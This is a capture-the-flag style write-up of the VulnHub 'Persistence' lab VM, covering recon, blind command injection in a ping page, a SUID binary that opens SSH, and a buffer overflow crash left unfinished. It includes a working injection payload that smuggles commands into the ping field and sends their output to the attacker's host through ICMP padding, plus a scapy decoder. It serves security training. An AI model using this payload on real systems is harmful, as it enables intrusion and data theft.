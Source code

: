 ```yaml
---
layout: post
title: "Persistence boot2root writeup"
description: "Persistence boot2root writeup"
category: writeups
tags: [boot2root, vulnhub]
---
```

Initial recon shows that only one port is open with a web server running

{% highlight console %}
root@kali:~# netdiscover -i eth0
Currently scanning: 192.168.70.0/16   |   Screen View: Unique Hosts

1 Captured ARP Req/Rep packets, from 1 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.2.105   00:00:de:ad:be:ef      1      42  Unknown vendor
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64

{% endhighlight %}
Browsing to the web server, there is a static page with an image.
After a little bit of enumeration we find one other page on the web server(debug.php).
{% highlight bash %}
root@kali:~# nikto -h 192.168.2.105 -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.2.105
+ Target Hostname:    192.168.2.105
+ Target Port:        80
+ Start Time:         2016-06-12 00:50:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.4.7
+ Server leaks inodes via ETags, header found with file /, fields: 0x531fe71e 0x187 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.3
+ /debug.php: Possible debug directory/program found.
+ 26171 requests: 6 error(s) and 6 item(s) reported on remote host
+ End Time:           2016-06-12 00:51:18 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}
Browsing to the page we find a web page which allows us to ping an inputted IP address. <img src="{{site.url}}/assets/debug_php.png">
I was able to verify that the ping command was working by running a packet capture when I submitted my query
{% highlight console %}
root@kali:~# tcpdump -i eth0 'icmp'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
00:53:29.550594 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 1, length 64
00:53:29.550607 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 1, length 64
00:53:30.550244 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 2, length 64
00:53:30.550267 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 2, length 64
00:53:31.550275 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 3, length 64
00:53:31.550297 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 3, length 64
00:53:32.550300 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 4, length 64
00:53:32.550320 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 4, length 64
{% endhighlight %}
After experimenting with various inputs I found that you can inject commands by appending a semicolon and adding additional commands.
The only issue is we have blind command injection as the page does not return the output of the commands.
After reading the man page for ping, there is one interesting arguments which can be used to transmit our command output.
The "-p" ping argument allows you specify 16 bytes to fill out the packet you send.
By abusing the "-p" argument and encoding the results of a command we have a working a shell.
Initially, I was trying to transmit 16 bytes at a time but faced issues when decoding a payload which was smaller than 16 bytes.
I gave up transmitting 16 bytes at a time and ended up only transmitting 1 byte at a time.
The below command will stop the first command, execute a command of our choosing and encode the command results in a series of ping packets
{% highlight bash %}
;PAYLOADS=$(ls -l 2>&1 | xxd -c 16 -ps); for PAYLOAD in $PAYLOADS; do ping -c 1 -p $PAYLOAD 192.168.2.103; done
{% endhighlight %}
Initially I was thinking of decoding the ping packets using a shell script with tshark but settled with scapy.
I hacked together the following script which will capture only ping packets then decode and print the packets payload.
{% highlight python %}
#!/usr/bin/env python2
from scapy.all import *

while True:
    packetcapture = sniff(timeout=1, filter='icmp[icmptype] == 8')
    for packet in packetcapture:
        if packet.haslayer(ICMP) and packet.getlayer(ICMP).type == 8:
            sys.stdout.write(packet.getlayer(ICMP).load[8])
{% endhighlight %}
The script will output your command output similar to the following.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
uid=498(nginx) gid=498(nginx) groups=498(nginx)
Linux persistence 2.6.32-431.5.1.el6.i686 #1 SMP Tue Feb 11 21:56:33 UTC 2014 i686 i686 i386 GNU/Linux
/usr/share/nginx/html
total 160
-rwxr-xr-x. 1 root root    439 Mar 17  2014 debug.php
-rw-r--r--. 1 root root    391 Mar 12  2014 index.html
-rw-r--r--. 1 root root 146545 Mar 12  2014 persistence_of_memory_by_tesparg-d4qo048.jpg
-rwsr-xr-x. 1 root root   5757 Mar 17  2014 sysadmin-tool
{% endhighlight %}
After getting the ping decode script working, I explored the file system a little bit.
It appeared that nginx was running inside of a chroot with only a few commands avaliable to us.
It also appeared that there was a local firewall dropping traffic.
I ended up downloading the interesting looking 'sysadmin-tool' binary which was being hosted and started investigating.
What was interesting is that that binary has the SUID bit set.
I ran strings against the binary which revealed the following interesting strings:
{% highlight console %}
Usage: sysadmin-tool --activate-service
--activate-service
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
{% endhighlight %}
It appears that the binary will disable the local firewall and provide login credentials.
I proceeded to run the binary and expected it disabled the local firewall and provided provided login credentials.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
Service started...
Use avida:dollars to access.
{% endhighlight %}
After a quick port scan, we see that SSH is now open. If you SSH in using the provided credentials you'll be dropped into a rbash shell.
{% highlight console %}
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open 192.168.2.105:22  ttl 64
TCP open                     ssh[   22]         from 192.168.2.105  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64
{% endhighlight %}
Looking around you can see there is a custom program named "wopr" running as root.
{% highlight console %}
-rbash-4.1$ ps aux | grep wopr
root      1092  0.0  0.0   2004   408 ?        S    05:54   0:00 /usr/local/bin/wopr
avida     2149  0.0  0.0   4356   732 pts/0    S+   06:48   0:00 grep wopr
{% endhighlight %}
I proceeded to download the binary and check for bufferoverflows.
{% highlight console %}
root@kali:~# ssh avida@192.168.2.105 "cat /usr/local/bin/wopr" > wopr
avida@192.168.2.105's password:
root@kali:~# ./wopr
[+] bind complete
[+] waiting for connections
[+] logging queries to $TMPLOG
[+] got a connection
*** stack smashing detected ***: ./wopr terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x6929b)[0xf75f329b]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x37)[0xf7682eb7]
/lib/i386-linux-gnu/libc.so.6(+0xf8e78)[0xf7682e78]
./wopr[0x80487dc]
[0x41414141]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fe:01 1705762                            /root/wopr
08049000-0804a000 r--p 00000000 fe:01 1705762                            /root/wopr
0804a000-0804b000 rw-p 00001000 fe:01 1705762                            /root/wopr
084b4000-084d5000 rw-p 00000000 00:00 0                                  [heap]
f7589000-f758a000 rw-p 00000000 00:00 0
f758a000-f773b000 r-xp 00000000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773b000-f773c000 ---p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773c000-f773e000 r--p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773e000-f773f000 rw-p 001b3000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773f000-f7742000 rw-p 00000000 00:00 0
f7747000-f7763000 r-xp 00000000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7763000-f7764000 rw-p 0001b000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7764000-f7765000 rw-p 00000000 00:00 0
f7765000-f7768000 rw-p 00000000 00:00 0
f7768000-f776b000 r--p 00000000 00:00 0                                  [vvar]
f776b000-f776d000 r-xp 00000000 00:00 0                                  [vdso]
f776d000-f778f000 r-xp 00000000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f778f000-f7790000 r--p 00021000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f7790000-f7791000 rw-p 00022000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
ffca8000-ffcc9000 rw-p 00000000 00:00 0                                  [stack]
root@kali:~# python -c 'print "A"*1024' | nc localhost 3333
[+] hello, my name is sploitable
[+] would you like to play a game?
> [+] yeah, I don't think so
{% endhighlight %}
# TODO: Build a working exploit
